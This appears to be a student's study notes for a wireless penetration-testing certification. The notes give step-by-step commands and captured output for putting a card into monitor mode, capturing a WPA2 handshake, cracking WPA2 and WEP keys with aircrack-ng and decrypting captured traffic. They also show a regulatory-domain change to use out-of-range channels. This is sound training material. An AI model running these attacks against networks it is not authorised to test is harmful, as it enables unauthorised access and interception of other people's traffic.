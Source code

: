 # Notes for GAWN

## Wifi 

### 802.11 configuration   

#### Manual

Show devices   
- `iw phy`   
- `ls /sys/class/ieee80211/`

Show interfaces   
- `iw dev`   
- `iwconfig`   
- `ifconfig -a`

Create interface from phy device   
- `iw phy phy0 interface add wlan0 type managed`

Set device interface to monitor mode   
- `iw dev wlan0 interface add mon0 type monitor`    
- `iwconfig wlan0 mode monitor`   

Delete device interface   
- `iw dev mon0 del`

Get information on device interface   
- `iw dev mon0 info`

Set device interface to specific channel   
- `iw dev mon0 set channel 1`   
- `iw dev mon0 set channel 1 HT40+`

Set Regulatory Domain Settings(to use ranges outside legal in us)   
- `iw reg set CH`

#### Automatic

Set device interface to monitor mode   
- `airmon-ng start wlan0`

Set device interface channel   
- `airmon-ng start wlan0 11`

Kill confliting processes   
- `airmon-ng check kill`

### Capturing Data

#### TCPDUMP

Important flags   
- `-i `  Specify interface to capture on
- `-e`   Print MAC addresses and BSSID
- `-n`   Skip DNS lookups
- `-s`   Set capture snap length
- `-X`   Print payload in ascii and hex

#### Airodump-ng

Capture all channels while channel hoping   
`airodump-ng -w savefile wlan0mon`   

Capture on single channel   
`airodump-ng -w savefile -c 5 wlan0mon`   

#### Wireshark

Filters
- eq, ==
- ne, !=
- gt, >
- lt, <
- ge, >=
- le, <=
- contains
- and
- or
- not
- !wlan.fc.type_subtype == 8   "excludes beacon frames"
- !wlan.fc.protected == 1      "excludes encrypted networks"
- wlan.bssid == 00:11:22:33:44:55  "find exact bssid"
- frame contains ORA-  "finds string matching ORA- exactly useful for finding oracle traffic"

### Attacking 802.11 Protocols   
#### Cracking WPA/WPA2 

Scan all channels   
`airodump-ng wlan0mon`

```bash
CH  6 ][ Elapsed: 18 s ][ 2020-03-16 20:58

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 14:59:C0:XX:XX:XX  -16        5        0    0   4  195  WPA2 CCMP   PSK  NETGEAR73
 16:59:C0:XX:XX:XX  -16        5        0    0   4  195  WPA2 CCMP   PSK  NETGEAR-Guest
```
Deauthentication to get handshake   

<a href="https://youtu.be/DqjOqEwq8uE" title="Link Title"><img src="https://github.com/vipertooth/Notes/blob/master/SEC617/images/Death-screenshot.png" alt="Alternate Text" /></a>

[![Alt text](https://github.com/vipertooth/Notes/blob/master/SEC617/images/Death-screenshot.png)](https://youtu.be/DqjOqEwq8uE)

Capture Handshake   
`airodump-ng -c 4 -d 16:59:C0:XX:XX:XX -w savefile wlan0mon`   

```bash
 CH  4 ][ Elapsed: 18 s ][ 2020-03-16 21:08 ][ WPA handshake: 16:59:C0:95:DB:06

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 16:59:C0:XX:XX:XX  -19  48       88        5    0   4  195  WPA2 CCMP   PSK  NETGEAR-Guest
```

Crack WPA2   
`aircrack-ng -w /usr/share/wordlists/rockyou.txt savefile.cap`   

```bash

                                 Aircrack-ng 1.2

      [00:00:00] 16/7120712 keys tested (1128.27 k/s)

      Time left: 1 hour, 45 minutes, 12 seconds                  0.00%

                           KEY FOUND! [ EASYPASSWD ]


      Master Key     : FD 3F 34 FD 32 6F 4D 16 DB 9B DA 5B B6 47 58 63
                       94 48 19 58 A5 42 E5 85 4F 3D CB BC 11 79 C9 74

      Transient Key  : 83 0F D3 B8 20 0C 22 AD 61 2D CD 1D 9E 40 05 AF
                       D6 EC CE 53 E7 0E D0 5D DA 23 46 BF 56 C0 0A 10
                       A3 47 7E 7B 32 9D 0D 61 62 1F D2 82 76 9F 55 29
                       F9 E1 E2 7C 59 85 4F C8 E5 4D F1 B9 8C 9D 00 A6

      EAPOL HMAC     : E7 2C 3E D2 EC F6 5E 1B E0 6C 68 B5 92 74 6C 0C
```

#### Cracking WEP

```bash
root@vipertooth:~# aircrack-ng wep.pcap                               
Opening wep.pcap                                                      
Read 92091 packets.                                                   
                                                                      
   #  BSSID              ESSID                     Encryption         
                                                                      
   1  6C:70:9F:DE:66:89  TH3PAD                    WPA (0 handshake)  
   2  88:1F:A1:32:A7:F9  Vulnerable Bank           WPA (0 handshake)  
   3  85:4D:68:07:4D:8F  wep                       WEP (98468 IVs)    
   4  00:1C:DF:B2:E6:47  jeff                      WPA (0 handshake)   
                                                                       
Index number of target network ? 3                                     
                                                                       
Opening wep.pcap                                                                                       
Attack will be restarted every 5000 captured ivs.                      
Starting PTW attack with 98468 ivs.                                    

                                             Aircrack-ng 1.2 


                             [00:00:02] Tested 1397591 keys (got 98468 IVs)

   KB    depth   byte(vote)
    0    0/  1   E2(109056) 2F(97536) A5(97536) 44(94464) 87(94464) D7(93952) 06(93696) 
    1    0/  1   28(113152) 33(98816) E2(97792) 3C(97280) 03(95232) 28(94208) E5(93952) 
    2    0/  1   9E(112640) 01(99072) FE(97024) 9B(96256) F1(94976) 72(94464) 73(93696) 
    3    0/  1   0F(111872) 1C(96000) 6A(95488) 4C(94720) 55(94208) FD(94208) BA(93952) 
    4    0/  1   19(109568) 79(97536) AF(96000) 5E(94976) 74(94208) E0(94208) D4(93952) 
    5    0/  1   4A(116992) 48(95232) EB(94720) 82(94464) D1(94208) DD(94208) B5(93952) 
    6    0/  1   B7(102400) EE(99584) 25(96000) 70(96000) DB(94464) C0(94208) 6C(93184) 
    7    0/  1   1A(108032) 72(98304) F8(97280) 31(96256) 8F(95232) D4(94976) 12(94208) 
    8    1/  8   30(93696) D4(93184) 84(92928) FB(92672) 02(92416) 13(92416) 1F(92416) 
    9    0/  1   33(115712) 9C(97024) B1(96256) 24(94720) 0B(94464) 08(93952) 4E(93184) 
   10    1/  1   7C(93440) A9(93440) 13(93184) 69(92672) BE(92672) E3(92416) E0(91904) 
   11    1/  1   8F(95232) 65(94208) 41(93696) 9A(93696) D1(92672) 2C(92160) 6C(91904) 
   12    0/  1   54(100564) 47(96416) 83(95224) A9(94572) 12(94504) 0D(93584) AA(93072) 

             KEY FOUND! [ E2:28:9E:0F:19:4A:B7:1A:9F:33:53:55:54 ] 
        Decrypted correctly: 100%
```

#### Decrypting Captured Traffic

```bash
root@vipertooth:~# airdecap-ng -w E2:28:9E:0F:19:4A:B7:1A:9F:33:53:55:54 wep.pcap
Total number of packets read         92091
Total number of WEP data packets     85824
Total number of WPA data packets         3
Number of plaintext data packets        14
Number of decrypted WEP  packets     83972
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets         0

root@SEC617:~/notes# airdecap-ng -p EASYPASSWD -e 16:59:C0:XX:XX:XX savefile.cap
Total number of stations seen            2
Total number of packets read          1176
Total number of WEP data packets         0
Total number of WPA data packets         1
Number of plaintext data packets         0
Number of decrypted WEP  packets         0
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets         0
Number of bad TKIP (WPA) packets         0
Number of bad CCMP (WPA) packets         0

root@vipertooth:~# ls -la
total 130804
drwxr-xr-x  2 root root     4096 Mar 17 10:44 .
drwxr-xr-x 19 root root     4096 Mar 17 09:59 ..
-rw-r--r--  1 root root    44408 Mar 16 21:08 savefile.cap
-rw-r--r--  1 root root       24 Mar 17 10:45 savefile-dec.cap
-rw-r--r--  1 root root 64174740 Mar 17 10:43 wep-dec.pcap
-rw-r--r--  1 root root 69695613 Mar 17 10:03 wep.pcap

```
